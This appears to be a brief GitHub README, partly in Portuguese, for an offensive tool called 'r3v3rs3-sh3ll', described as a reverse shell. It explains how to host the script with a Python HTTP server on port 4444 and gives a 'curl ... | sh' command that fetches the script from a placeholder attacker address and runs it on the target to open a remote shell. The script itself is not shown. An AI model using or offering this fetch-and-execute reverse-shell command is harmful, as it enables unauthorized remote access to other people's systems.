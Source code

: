 # r3v3rs3-sh3ll

Reverse shell.



- chmod +x r3v3rs3-sh3ll.sh
- ./r3v3rs3-sh3ll.sh

pode ser utilizado levantando um servidor python e chamando com curl.

- python3 -m http.server 4444

- curl -k http://SEUIP:4444/r3v3rs3-sh3ll.sh | sh

![image](https://github.com/carlosalbertotuma/r3v3rs3-sh3ll/assets/13341724/f3c14b08-f455-4b99-ade3-c73364fbbea1)
